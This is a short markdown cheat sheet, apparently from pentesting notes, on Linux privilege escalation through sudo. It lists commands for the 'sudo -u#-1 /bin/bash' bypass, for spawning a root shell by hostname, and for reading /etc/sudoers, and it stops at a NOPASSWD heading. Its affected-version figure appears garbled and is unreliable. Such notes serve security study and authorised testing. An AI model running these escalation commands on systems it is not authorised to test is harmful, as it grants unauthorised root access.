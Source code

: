 ```yaml
---
title: Sudo PrivEsc
desc: The "sudo" command may be vulnerable to privilege escalation.
tags: [Linux, PrivEsc, Privilege, Sudo]
alts: [Linux-Privilege-Escalation]
render_with_liquid: false
---
```


## Investigation

- **Version**

    ```sh
    sudo --version
    ```

    If the sudo **version <=1.28**, try the following command.

    ```
    sudo -u#-1 /bin/bash
    ```

- **As Another Users**

    ```sh
    sudo -su root
    sudo -u john whoami
    ```

- **Privileges**

    ```sh
    sudo -l
    sudo -ll

    # Specify hostname
    sudo -h <host-name> -l
    # Execute via the hostname
    sudo -h <host-name> /bin/bash
    ```

    Or from the config file:

    ```sh
    cat /etc/sudoers
    cat /etc/sudoers.d/usersgroup
    ```

<br />

## Command Forgery (NOPASSWD)
